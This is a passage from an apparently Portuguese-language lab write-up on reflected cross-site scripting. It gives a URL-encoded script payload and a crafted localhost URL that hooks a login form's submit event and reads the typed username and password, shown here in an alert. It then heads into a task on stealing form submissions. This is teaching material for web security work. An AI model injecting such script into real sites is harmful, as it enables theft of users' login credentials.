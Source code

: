Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28username%20%2B%20%27%20%3A%20%27%20%2B%20password%29%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/03/?search=%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28username%20%2B%20%27%20%3A%20%27%20%2B%20password%29%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E](http://localhost/03/?search=%3Cscript%3E%0A%0A%09function%20InterceptForm%28%29%20%7B%0A%09%09var%20username%20%3D%20document.forms%5B0%5D.elements%5B0%5D.value%3B%0A%09%09var%20password%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28username%20%2B%20%27%20%3A%20%27%20%2B%20password%29%3B%0A%09%7D%0A%09%0A%09document.forms%5B0%5D.onsubmit%20%3D%20InterceptForm%3B%0A%3C%2Fscript%3E)

Ao acessar a página, nenhuma alteração é visível, porém, ao preencher os campos de usuário e senha, e submeter o formulário, o alerta é impresso com os dados preenchidos.

![Conclusão](/img/posts/2023-06-21-beyond-the-alert-11.png)

#### Referências

- [https://developer.mozilla.org/en-US/docs/Learn/Forms](https://developer.mozilla.org/en-US/docs/Learn/Forms)
- [https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/elements](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/elements)
- [https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener)

### *Task 4 - Stealing Form Submissions*

